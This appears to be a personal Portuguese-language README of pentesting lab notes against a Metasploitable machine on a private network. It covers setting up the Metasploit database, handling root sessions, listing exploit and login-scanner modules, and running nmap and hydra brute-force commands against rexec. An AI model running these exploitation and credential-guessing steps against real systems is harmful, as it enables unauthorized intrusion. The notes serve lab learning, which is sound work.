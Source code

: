 
# Conectando no Banco de Dados (Parte mais chata)

```bash
sudo apt install postgresql postgresql-contrib &&
sudo service postgresql start

msfdb init
```

## Dentro do MSFCONSOLE

```bash
msfconsole
db_connect msf:msf@127.0.0.1:5432/msf
```

---

## Criando Workspace desse Computador

![Criando Workspace](https://github.com/user-attachments/assets/c79ab59f-974d-4781-bb66-693c1e4cff30)

## Serviços

![Serviços](https://github.com/user-attachments/assets/e2602863-3e4e-426a-a54a-eca74d17c896)

## Informações de Host

![Informações de Host](https://github.com/user-attachments/assets/121e0dc0-f0ed-43af-81b0-7d5af6a9aaee)

## Procurando Diretórios Escondidos

![Diretórios Escondidos](https://github.com/user-attachments/assets/f4ec5416-ea24-4f5a-8234-1894a40596b9)

## Aprofundando

![Profundando 2](https://github.com/user-attachments/assets/fdf0e3c5-cae1-4044-a42e-541c8ab3ced3)

---

## Depois de conseguir acesso como root usando o payload:

```bash
CTRL + Z
Y

sessions        # Ver sessões ativas
sessions -i 2   # Acessar a sessão 2
```

![Sessão](https://github.com/user-attachments/assets/e4c0a2cc-9ec0-4e06-9f0f-3e3448ace42d)

---

## Dados de IPs

```text
Meu IP:     177.67.136.88
IP Kali:    172.24.49.254
IP Meta:    192.168.100.102
```

## PAYLOADs

```text
cmd/unix/interact               => vsft 3.2.4
auxiliary/scanner/telnet_login => Telnet porta 23
scanner/vnc/vnc_login          => VNC (usar depois com: vncviewer 192.168.100.102:5900 :password)
```

## Força Bruta com Nmap e Hydra

```bash
nmap -p 512 --script rexec-brute -v 192.168.100.102

# Depois:
hydra -L /home/luan/Desktop/porta_512_logins/usuarios_512.txt \
      -P /home/luan/Desktop/porta_512_logins/passwd_512.txt \
      -vV 192.168.100.102 rexec
```
